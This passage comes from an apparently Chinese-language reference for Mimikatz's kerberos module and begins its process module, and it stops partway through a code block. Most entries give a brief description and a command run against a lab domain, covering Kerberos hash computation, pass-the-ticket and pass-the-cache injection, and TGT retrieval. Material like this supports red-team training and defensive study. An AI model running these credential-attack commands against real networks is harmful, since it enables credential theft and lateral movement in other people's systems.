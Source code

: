 ```

## hash

根据给定的明文密码计算出不同的kerberos哈希（NTLM,AES128,AES256）

```
mimikatz # kerberos::hash /user:m3g9tr0n /domain:hacklab.local /password:Super_SecretPass1!
```

## list

具有类似于klist命令的功能，而不需要提升权限。与sekurlsa::tickets不同，该模块不与LSASS交互。

```
mimikatz # kerberos::list
```

## ptc

可以用来传递缓存。这类似于kerberos::ptt，它确实传递了票据，但不同的是，使用的票据是.ccache票据而不是.kirbi票据。
```
mimikatz # kerberos::ptc m3g9tr0n@HACKLAB.LOCAL_krbtgt~HACKLAB.LOCAL@HACKLAB.LOCAL.ccache
```

## ptt

用于通过在当前会话中注入一个或多个 Kerberos 票据来传递票据。票据可以是TGT（Ticket-Granting Ticket），也可以是ST（Service Ticket）。

```
mimikatz # kerberos::ptt 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi
```

## purge

清除票据，等价于```klist purge```命令
```
mimikatz # kerberos::purge
```

## tgt

检索当前用户的TGT（Ticket-Granting Ticket）。

```
mimikatz # kerberos::tgt
```

# process

## exports

> lists all the exported functions from the DLLs each running process is using. If a```/pid ```is not specified, then exports for mimikatz.exe will be displayed.

```
mimikatz # process::exports
